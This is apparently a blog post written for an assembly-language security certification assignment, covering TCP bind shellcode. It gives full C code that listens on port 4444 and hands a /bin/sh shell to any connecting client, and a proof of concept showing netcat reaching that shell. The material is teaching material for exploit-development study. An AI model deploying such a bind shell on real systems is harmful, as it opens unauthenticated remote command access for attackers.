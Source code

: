 ```yaml
---
title:  "SLAE x86 Assignment 1: TCP Bind Shellcode"
header:
  teaser: "/assets/images/SHELLCODING32.png"
  teaser_home_page: true
#categories:
#  - exploit dev
classes: wide
#tags:
#  - exploit dev
#  - slae
---
```


{: .center}![Shellcoding](/assets/images/SHELLCODING32.png)

### TCP BIND SHELLCODE

* Binds to a port
* Executes a shell on an incoming connection
* Port number should be easily configurable

#### CONCEPT 

A TCP bind shellcode will bind a shell to a specific network port on a host listening for an incoming connection via the TCP protocol.

![Bind Shell](/assets/images/bind_shell.png)

Bind shells are easily blocked by firewalls and inbound filtering rules along with NAT preventing unsolicited incoming connections (except for certain ports with known services). This limits the target host's exposure and will prevent a port-binding shellcode from receiving a successful connection.

#### TCP BIND SHELL IN C

The following C skeleton code will be used to demonstrate the TCP bind shell from a high-level language perspective, this will be used as a template for the low-level assembly code to follow.

```c
#include <stdio.h>  
#include <sys/types.h>   
#include <sys/socket.h>  
#include <netinet/in.h>  
  
int host_sockid;    // socket for host  
int client_sockid;  // socket for client  
      
struct sockaddr_in hostaddr;  // sockaddr struct  
  
int main()  
{  
    // Create socket  
    host_sockid = socket(PF_INET, SOCK_STREAM, 0);  
  
    // Initialize sockaddr struct to bind socket using port 4444  
    hostaddr.sin_family = AF_INET;  
    hostaddr.sin_port = htons(4444);  
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);  
  
    // Bind socket to IP/Port in sockaddr struct  
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr));  
      
    // Listen for incoming connections  
    listen(host_sockid, 2);  
  
    // Accept incoming connection using the socket created  
    client_sockid = accept(host_sockid, NULL, NULL);  
  
    // Duplicate file descriptors for STDIN, STDOUT and STDERR  
    dup2(client_sockid, 0);  
    dup2(client_sockid, 1);  
    dup2(client_sockid, 2);  
  
    // Execute /bin/sh  
    execve("/bin/sh", NULL, NULL);  
    close(host_sockid);  
      
    return 0;  
}
```

Note the various syscalls in the C code which will be utilised in the upcoming Assembly code:

* socket
* bind
* listen
* accept
* dup2
* execve

The C achieves the following objectives:

* Creates a socket
* Binds the socket to a port
* Configures the socket to listen for incoming connections
* Accepts connections on the newly created socket
* Redirects STDIN, STDOUT, and STDERR to the incoming client connection
* Executes a shell

#### POC 

```ruby
osboxes@osboxes:~/Downloads/SLAE$ gcc shell_bind_tcp.c -o shell_bind_tcp
osboxes@osboxes:~/Downloads/SLAE$ ./shell_bind_tcp 

osboxes@osboxes:~$ netstat -ano | grep 4444
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      off (0.00/0/0)
osboxes@osboxes:~$ nc 127.0.0.1 4444
id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```

##### SLAE DISCLAIMER ####
---------

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification] [slae-link].

Student ID: SLAE-xxxx

Github: [Code][github-code]

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment1

